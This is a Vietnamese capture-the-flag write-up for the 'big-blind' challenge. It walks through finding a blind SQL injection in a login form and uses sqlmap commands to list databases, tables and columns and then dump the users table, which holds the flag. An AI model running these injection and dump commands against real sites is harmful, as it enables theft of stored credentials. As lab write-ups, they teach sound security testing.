

# big-blind

## Description

https://big-blind.hsc.tf

## Solution

Dựa vào tiêu đề ta có thể phần nào đoán ra được đây là một chall SQLI , tôi thử nhập vào form một acount bất kì thì nó ném ra một thông báo lỗi :



Thử tiếp với một kí tự nháy đơn thì xuất hiện lỗi "Internal Server Error". Ok đến đây ta có thể xác định đây là một chall Blind Sql để tiết kiệm thời gian tôi dùng sqlmap để thực hiện inject .

```
sqlmap -u "https://big-blind.hsc.tf/" --method POST --data "user=a&pass=a" --level 2 --dbs 

available databases [4]:
[*] db
[*] information_schema
[*] mysql
[*] performance_schema

```

Sau khi sử dụng sqlmap ta xác định được đây là lỗi blind time-base và ta sẽ chú ý vào 'database: db'.Tiếp theo là lấy ra các bảng trong database này .
```
sqlmap -u "https://big-blind.hsc.tf/" --method POST --data "user=a&pass=a" --level 2 --technique T -D db --tables

Database: db
[1 table]
+-------+
| users |
+-------+
```

Ta tìm được bảng "users", tiếp tục lấy ra các cột .

```
sqlmap -u "https://big-blind.hsc.tf/" --method POST --data "user=a&pass=a" --level 2 --technique T -D db -T users --columns

+--------+--------------+
| Column | Type         |
+--------+--------------+
| user   | varchar(255) |
| pass   | varchar(255) |
+--------+--------------+
```

Tôi thu được hai cột là "user" và "pass" , cuối cùng ta sẽ xuất dữ liệu từ hai cột này ra .

```
sqlmap -u "https://big-blind.hsc.tf/" --method POST --data "user=a&pass=a" --level 2 --technique T -D db -T users --dump

Database: db
Table: users
[1 entry]
+-----------------------------+--------+
| pass                        | user   |
+-----------------------------+--------+
| flag{any_info_is_good_info} | admin  |
+-----------------------------+--------+
```

